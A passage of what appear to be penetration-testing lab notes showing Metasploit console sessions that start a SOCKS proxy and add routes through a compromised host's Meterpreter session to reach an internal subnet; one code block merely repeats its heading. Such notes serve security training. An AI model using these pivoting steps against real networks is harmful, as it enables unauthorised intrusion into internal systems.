 ```
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a,
                                        5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```
Confirming Proxy Server is Running
```
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
```
Adding a Line to proxychains.conf if Needed
```
Adding a Line to proxychains.conf if Needed
```
Creating Routes with AutoRoute
```
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```
It is also possible to add routes with autoroute by running autoroute from the Meterpreter session.
```
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
```